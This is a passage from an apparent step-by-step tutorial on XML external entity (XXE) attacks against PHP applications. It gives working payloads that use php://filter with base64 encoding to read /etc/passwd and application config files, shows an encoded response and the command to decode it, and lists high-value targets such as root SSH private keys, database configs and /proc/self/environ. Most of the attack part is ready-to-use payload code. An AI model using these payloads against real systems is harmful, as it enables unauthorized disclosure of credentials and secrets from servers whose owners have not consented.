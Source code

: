 If no response is echoed, proceed to blind techniques (Section 4).

---

## 3. Advanced Techniques for File Disclosure and Evasion

### Step 3: Bypassing Restrictions with Encoding and Filters
Many applications sanitize inputs to block special characters. Counter this with **PHP stream wrappers** like `php://filter`, which can encode outputs to avoid breaking XML or triggering filters:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE submission [
  <!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<submission>
  <source>&test;</source>
</submission>
```

Response example (truncated):

```plaintext
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaA==
ZGFtb246eDoxOjE6ZGFtb246L3Vzci9zYmluOi91c3Ivc2Jpbjpub2xvZ2luCg==
YmluOng6MjoyOmJpbjovYmluOi91c3Ivc2Jpbjpub2xvZ2luCg==
```

Decode using:

```bash
echo -n "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaA==" | base64 -d
```

Other filters include:
- `convert.iconv.UTF8.CSISO2022KR` for character set conversions.
- `zlib.deflate` for compression, followed by decompression on your end.

This is crucial for binary files (e.g., images, executables) or when files contain XML-invalid characters.

### Step 4: Extracting Sensitive Application Files
Escalate by targeting high-value files. Examples:
- Database configs: `/var/www/html/config/database.php`
- SSH keys: `/root/.ssh/id_rsa`
- Environment vars: `/proc/self/environ`

Payload for a config file:

```xml
<!DOCTYPE submission [
  <!ENTITY config SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/config.php">
]>
<submission>
  <source>&config;</source>
</submission>
```
